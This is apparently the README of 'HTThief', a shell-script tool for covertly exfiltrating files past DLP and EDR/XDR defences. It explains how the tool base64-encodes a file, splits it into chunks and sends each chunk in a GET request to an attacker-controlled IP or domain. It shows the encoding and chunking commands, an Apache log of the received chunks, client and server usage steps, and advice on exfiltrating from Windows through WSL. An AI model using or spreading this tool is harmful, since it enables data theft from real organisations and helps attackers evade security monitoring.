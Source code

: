 # HTThief

This tool was developed with the intention of serving as a (simple but effective) way to transfer files protected by DLP, E/XDR and etc (exfiltration) in a stealthy way. Convert any type of file (eg executables, Office, Zip, images) into URLs and send them via simple GET.


# Author
Vinicius Vieira


# Why is this different from every other HTTP exfiltration technique?

The most common data exfiltration techniques via HTTP are based on file upload (encrypted or not). These techniques can be easily detected, either by anomalous behavior of the endpoint (uploading a file on an unknown website) or even by traffic (through DLP, for example), as well as being easily mitigated.
HTThief differs from the others because it encodes the raw file data in Base64 and divides it into small strings, which are passed via URL to the server. Each GET calls the attacker's IP/domain plus a chunk of base64 as part of the requested address.  Obviously the address does not exist in the destination, however the behavior of the target machine is similar to a user accessing a certain resource on a website and not uploading a file.

This makes detection and mitigation very difficult, because through the process of steganography of the file in URLs, it becomes very dificult to detect that each one is actually a piece of a certain file.

# How it works?

How HTThief works is based on two assumptions: 

1) encode the file in base64 to be sent; and
   
    ```
    ### encoding the file
    echo "Enconding the file..."
    ENCODED=$(base64 $path)
    echo $ENCODED > /tmp/ax0c.txt
    ```
    
2) divide it into pieces to make it difficult to decode the file during sending
   
    ```
    ### organizing the file
    echo "Organizating the file..."
    tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
    FILE="/tmp/ax0d.txt"
    ```
By default base64 will generate strings of 76 characters with a nullbyte (which in ASCII is understood as a space) at the end, instead of a new line. 

![h6](https://github.com/V1n1v131r4/HTThief/assets/1153876/4612fce1-19e5-4d74-90de-cb117e493545)

HTThief takes advantage of this to replace these spaces with new lines by means of ```tr -s``` and send the HTTP GET of each line of the encoded file, that is, pieces of 76 characters. 

```
tr -s '[:space:]' '\n' < /tmp/ax0c.txt > /tmp/ax0d.txt
```

That way, even if there is some soul that decodes during tracing, this piece of code could not be identified as the original file.

```
┌──(kali㉿kali)-[~/HTThief]
└─$ cat /var/log/apache2/access.log
 
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET //9j/4QCKRXhpZgAATU0AKgAAAAgABQENAAIAAAAnAAAASgEaAAUAAAABAAAAcgEbAAUAAAABAAAA HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /egEoAAMAAAABAAIAAAITAAMAAAABAAEAAAAAAAA8P3BocCBwaHBpbmZvKCk7IF9faGFsdF9jb21w HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /aWxlcigpOyA/PgAAAAAASAAAAAEAAABIAAAAAf/bAIQAAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB HTTP/1.1" 404 432 "-" "curl/7.88.1"
127.0.0.1 - - [11/Aug/2023:08:51:38 -0400] "GET /AQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEBAQEB/8AAEQgDIAMg HTTP/1.1" 404 432 "-" "curl/7.88.1"
```



# Usage

The use of HTThief is simple:

```
kali@kali:~ ./client.sh --ip <HTThief_Server_IP>
```

You can replace the parameter for attacker IP address or attacker domain, wherever.


# Tutorial

HTThief is based on two scripts, one to be executed on the server/attacker machine (who will receive the file) and another on the client (machine that will send the file):

```
┌──(kali㉿kali)-[~/HTThief]
└─$ ls -l
total 8
-rwxr-xr-x 1 kali kali 2681 Aug 10 09:13 client.sh
-rwxr-xr-x 1 kali kali  846 Aug 10 09:11 server.sh

```

After choosing the file to be sent, first you must run ```server.sh``` on the attacking machine:

![h1](https://github.com/V1n1v131r4/HTThief/assets/1153876/48c9c3eb-250b-429d-9b0a-9af753e87709)



On the target machine, run ```client.sh``` and fill in the absolute path of the file that should be sent:

![h2](https://github.com/V1n1v131r4/HTThief/assets/1153876/d708c3de-0553-49c5-9319-fde9c393f906)


After sending the file and **you got the "Done!" response**, go back to the attacking machine, type "yes" for the script flow to end.

**WARNING**: The larger the file, the longer the upload process takes. Be patient and wait until it is fully shipped.

At the end of receiving, choose the original extension of the file so that it is originally reassembled on the attacking machine.


![h3](https://github.com/V1n1v131r4/HTThief/assets/1153876/e3a3f84d-3f13-4908-acf9-26d5766edcb0)

![h4](https://github.com/V1n1v131r4/HTThief/assets/1153876/86d891d5-5aa2-45a0-93d2-781ac72f7277)




# Do you want to use in a Windows environment?

 
Although HTThief is written in Shell Script, it can be easily used by any user who has access to WSL in a Windows environment. Just copy the client.sh to the Linux distribution running on WSL and run it, pointing to the file you want to exfiltrate from the Windows environment.

![WhatsApp Image 2023-08-12 at 12 14 01](https://github.com/V1n1v131r4/HTThief/assets/1153876/934c839c-dc5e-47e0-ae07-c033a3319eb1)




# Requires

On attacker (server) machine you will need the Apache2 installed.



# To Do

- replace Apache2 requirenment to Go wbserver.
